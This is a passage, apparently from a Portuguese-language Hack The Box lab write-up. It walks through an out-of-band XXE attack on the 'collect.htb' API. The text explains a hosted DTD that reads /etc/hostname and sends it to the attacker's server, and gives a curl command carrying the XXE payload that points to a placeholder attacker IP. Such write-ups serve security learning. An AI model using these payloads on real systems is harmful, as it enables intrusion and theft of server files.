 Na linha 1, armazenamos o conteúdo do arquivo "**/etc/hostname"** na entidade "**file".** \
****Na linha 2, criamos uma entidade "**payload**" que prepara a entidade "**run**".\
A entidade "**run**" faz uma request para nosso servidor python, enviando um parametro com o conteúdo da entidade "**file**", que corresponde ao conteúdo do arquivo "**/etc/hostname**".\
Na linha 3 e 4 invocamos as entidades.



Crie o arquivo **xpl.dtd** e hospede no seu servidor python:

```
python3 -m http.server 80
```

<figure><img src="./assets/24.png" alt=""><figcaption></figcaption></figure>

**Enviando a payload:**

```
curl -X POST http://collect.htb/api -d 'manage_api=<!DOCTYPE root [<!ENTITY % xpl SYSTEM "http://<your-ip>/xpl.dtd">%xpl;]><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>test</password></user></root>' -b "PHPSESSID=i6f7tbtgmvon8hko3tvtscifpc"
```

<figure><img src="./assets/25.png" alt=""><figcaption></figcaption></figure>
